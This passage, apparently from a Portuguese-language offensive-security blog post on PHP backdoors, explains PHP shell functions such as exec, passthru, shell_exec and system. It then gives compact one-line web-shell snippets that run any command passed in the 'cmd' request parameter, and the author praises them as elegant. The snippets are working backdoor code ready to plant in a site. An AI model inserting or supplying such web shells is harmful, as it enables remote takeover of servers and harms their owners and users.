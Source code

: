 ```console
exec(string $command, array &$output = null, int &$result_code = null): string|false
EXECUÇÃO -> php -r 'exec("ls -la",$output);print_r($output);'
```

**passthru**
- Executa um programa externo e mostra a saída bruta. A função `passthru()` é similar à função `exec()`, e executa um comando especificado em command
  
```console
passthru(string $command, int &$result_code = null): ?false
EXECUÇÃO -> php -r 'passthru("ls -la",$result_code);'
```

### Implementação simples

O uso das funções é simples e eficiente. Um condicional `if` verifica se há entrada de dados externos via `$_REQUEST`. Se afirmativo, executa a função de shell pré-selecionada. Os exemplos abaixo são apresentados de forma compacta (`inline`) para ilustrar o contexto de backdoor e economia de espaço.

E covenhamos inline fica bem elegante

![Elegância](/assets/img/posts/hold-door-hold-backdoor/elegante.png)
_lindo & elegante_


**shell_exec**
```php
if(isset($_REQUEST['cmd'])){$cmd=shell_exec($_REQUEST['cmd']);print_r($cmd);}
```

**system**
```php
if(isset($_REQUEST['cmd'])){system($_REQUEST['cmd']);}
```

**exec**
```php
if(isset($_REQUEST['cmd'])){exec($_REQUEST['cmd']);}
```
